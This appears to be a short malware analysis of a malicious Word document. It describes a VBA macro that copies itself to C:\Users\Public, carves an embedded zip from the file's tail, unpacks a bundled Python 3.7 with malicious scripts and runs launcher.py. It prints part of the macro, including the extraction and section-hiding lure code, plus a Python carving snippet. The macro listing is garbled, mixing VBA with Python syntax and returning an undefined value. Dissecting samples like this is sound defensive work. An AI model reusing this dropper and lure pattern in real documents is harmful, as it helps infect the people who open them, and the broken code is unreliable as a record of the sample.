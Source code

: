 ```vbnet
    strDate = Format(Now, ' dd-mm-yy h-mm-ss')
    FileNameFolder = DefPath + TarFold + '\\'
    #Make the normal folder in DefPath
    MkDir(FileNameFolder)
    #Extract the files into the newly created folder
    oApp = CreateObject('Shell.Application')
    oApp.Namespace(FileNameFolder).CopyHere(oApp.Namespace(Fname).items, 4)
def hide():
    ActiveDocument.Sections[1].Range.Font.Hidden = False
    for Section in ActiveDocument.Sections:
        if Section.Index > 1:
            Section.Range.Font.Hidden = True
def show():
    ActiveDocument.Sections[1].Range.Font.Hidden = True
    for Section in ActiveDocument.Sections:
        if Section.Index > 1:
            Section.Range.Font.Hidden = False
def deay(min):
    ptr = Variant()
    ptr = DateAdd('s', min, Time())
    if ptr > Time():
        while not (( Time() > ptr )):
            pass
    return fn_return_value

```
# VBA Macro Analysis

At first it copies the document file to
"**C:\\Users\\Public\\docer.doc**"

Then it executes "**bin2var**" function which extracts the latest
"**7074638 Bytes**" from the document and creates "**smile.zip**", So
this python script can be used to extract the zip file from the document
```python
f = open(\'Sample1\', \'rb\')
content = f.read()
zip_file = content\[len(content)-7074638:len(content)\]
z= open(\'Sample.zip\',\'wb\')
z.write(zip_file)
f.close()
z.close()
```
then it unzips it into "**C:\\Users\\Public\\ Python37**", Apparently
the extracted files are **python version 3.7** and some **malicious
scripts**

**"affine.py, backer.py, frown.py, launcher.py, smile.py,
smile_funs.py"**

Then it launches the "**Launcher.py**" script
